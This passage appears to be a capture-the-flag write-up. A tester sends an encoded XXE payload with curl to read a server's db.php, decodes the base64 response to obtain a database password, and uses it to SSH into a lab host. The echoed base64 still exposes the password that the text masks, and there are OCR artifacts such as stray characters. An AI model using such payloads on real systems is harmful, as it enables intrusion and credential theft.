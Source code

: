 
```Encoded data being sent using curl.
└──╼ $curl -X POST http://10.10.11.100/tracker_diRbPr00f314.php --data "data=%50%44%39%34%62%57%77%67%49%48%5a%6c%63%6e%4e%70%62%32%34%39%49%6a%45%75%4d%43%49%67%5a%57%35%6a%62%32%52%70%62%6d%63%39%49%6b%6c%54%54%79%30%34%4f%44%55%35%4c%54%45%69%50%7a%34%4b%43%54%77%68%52%45%39%44%56%46%6c%51%52%53%42%6c%62%57%46%70%62%43%42%62%43%69%41%4a%50%43%46%46%54%6c%52%4a%56%46%6b%67%64%47%56%7a%64%43%42%54%57%56%4e%55%52%55%30%67%49%6e%42%6f%63%44%6f%76%4c%32%5a%70%62%48%52%6c%63%69%39%6a%62%32%35%32%5a%58%4a%30%4c%6d%4a%68%63%32%55%32%4e%43%31%6c%62%6d%4e%76%5a%47%55%76%63%6d%56%7a%62%33%56%79%59%32%55%39%5a%47%49%75%63%47%68%77%49%6a%34%4b%43%56%30%2b%43%67%6b%4a%50%47%4a%31%5a%33%4a%6c%63%47%39%79%64%44%34%4b%43%51%6b%38%64%47%6c%30%62%47%55%2b%4a%6e%52%6c%63%33%51%37%50%43%39%30%61%58%52%73%5a%54%34%4b%43%51%6b%38%59%33%64%6c%50%6e%52%6c%63%33%51%38%4c%32%4e%33%5a%54%34%4b%43%51%6b%38%59%33%5a%7a%63%7a%35%30%5a%58%4e%30%50%43%39%6a%64%6e%4e%7a%50%67%6f%4a%43%54%78%79%5a%58%64%68%63%6d%51%2b%64%47%56%7a%64%44%77%76%63%6d%56%33%59%58%4a%6b%50%67%6f%4a%43%54%77%76%59%6e%56%6e%63%6d%56%77%62%33%4a%30%50%67%3d%3d"
If DB were ready, would have added:
<table>
  <tr>
    <td>Title:</td>
    <td>PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=</td>
  </tr>
  <tr>
    <td>CWE:</td>
    <td>test</td>
  </tr>
  <tr>
    <td>Score:</td>
    <td>test</td>
  </tr>
  <tr>
    <td>Reward:</td>
    <td>test</td>
  </tr>
</table>

```

The tester decoded the base64 to show the contents of the db.php file, obtaining a password.

```
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m<password>K";
$testuser = "test"Owo
```

The tester used this password with the development user, found in the passwd file, to ssh into the host.

```
└──╼ $ssh development@10.10.11.100
development@10.10.11.100's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

<snip>

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
```